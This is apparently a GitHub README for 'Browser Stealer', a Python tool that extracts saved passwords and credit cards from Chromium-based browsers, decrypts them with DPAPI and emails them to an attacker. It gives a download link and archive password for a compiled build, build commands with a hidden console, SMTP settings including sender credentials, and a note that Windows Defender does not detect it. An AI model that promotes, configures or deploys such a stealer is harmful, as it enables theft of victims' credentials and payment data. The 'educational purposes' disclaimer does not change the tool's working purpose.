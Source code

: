 # Browser Stealer
Finds Internet browsers and applications that use those browsers. It detects files that hold personal information such as username and password, and credit card information. It decrypts these files using DPAPI. It transmits this information to the attacker via email.

**1) The algorithm used by the program for saved passwords is shown in the graphic below.**
![key1](https://user-images.githubusercontent.com/71177413/166139625-fd15d6ea-6355-4a80-ae83-15b6437b54e5.JPG)

**2) The algorithm used by the program for saved credit cards is shown in the graphic below.**
![key2](https://user-images.githubusercontent.com/71177413/166139633-a23d31a5-d098-440d-ba6b-ae36995777b7.JPG)


Supported Browsers
---
This python program gets all the saved passwords and credit cards from chromium based browsers supports chromium 80 and above!
<dl>
  <dt> Supported some browsers
  <dd>
  <dd> ✔ Chrome
  <dd> ✔ Brave
  <dd> ✔ Edge (Chromium)
  <dd> ✔ Opera
  <dd> ✔ Yandex
  <dd> ✔ Other browsers
</dl>


The Compiled Version of the Program Can be Downloaded from the Links Below.
---
<dl>
  <dt> Browser Stealer
  <dd>
  <dd> Browser_Stealer.rar --> zip password: "BrOWserSteaLEr2022"
  <dd> Link = https://drive.google.com/file/d/1Q2XkhU64vHzKfyxmuPh-c9U3JdoqFeyS/view?usp=sharing
</dl>

Requirements
---
Required libraries:  pywin32, pycryptodome, pyinstaller

```
pip install pywin32
pip install pycryptodome
pip install pyinstaller
```

"pyinstaller" will be used to make the code one piece executable


Settings
---
![A](https://user-images.githubusercontent.com/71177413/166140037-c624e1f9-eaf7-48dc-953b-c28ad4e80d15.JPG)

```
    SMTP_SERVER      = "smtp-mail.outlook.com"           # SMTP server for e-mail to be sent
    SMTP_PORT        = "587"                             # SMTP port for e-mail to be sent
    SENDER_ADDRESS   = "ajehdfgruewsf@outlook.com"       # Sender e-mail address
    SENDER_PASS      = "uy8mNbvx4c9agehe5uwk6wxv"        # Sender e-mail password
    RECEIVER_ADDRESS = "python.test.email@outlook.com"   # Receiver e-mail address
```

<dl>
  <dt>
  <dt> Some settings can be changed with initial parameters if desired.
  <dd>
  <dd> -smail:***          ==> sets sender e-mail address   ["SENDER_ADDRESS"]
  <dd> -spass:***          ==> sets sender e-mail password  ["SENDER_PASS"]
  <dd> -rmail:***          ==> sets receiver e-mail address ["RECEIVER_ADDRESS"]
</dl> 

<dl>
  <dt>
  <dt> Example:
  <dd>
  <dd> Browser_Stealer.exe  -smail:gungor@outlook.com -spass:123jKl789 -rmail:receiver@mail.com
  <dd>
</dl>

![5](https://user-images.githubusercontent.com/71177413/166140529-f69a38f2-59ef-4e8c-a577-2b548dc82245.JPG)


Compilation
---

```
pyinstaller --onefile --noconsole --icon=Browser_Stealer.ico Browser_Stealer.py
```

Some Screenshot of the Working of the Program
---

**Screenshot [1] (Depending on your mail settings, e-mails may fall into junk mail.)**
![2](https://user-images.githubusercontent.com/71177413/166143957-9f4f56f2-78a6-478b-be33-cc359767bc75.JPG)


**Screenshot [2] (When the program runs, it sends the information to the e-mail address in its settings.)**
![1](https://user-images.githubusercontent.com/71177413/166143994-414c1813-dc85-4122-903b-43ff43b3ebf2.JPG)


**Screenshot [3] (The e-mail address can be changed by sending the parameters to the program at the beginning.)**
![4](https://user-images.githubusercontent.com/71177413/166144022-c4fb9fc9-fe39-43e1-896e-af37611de673.JPG)


Windows Defender
---
As of 01/05/2022, it is not caught by the Windows Defender program. Over time this will change.

Legal Warning
---
Run your tests on virtual machines. The responsibility for illegal use belongs to the user. Shared for educational purposes.
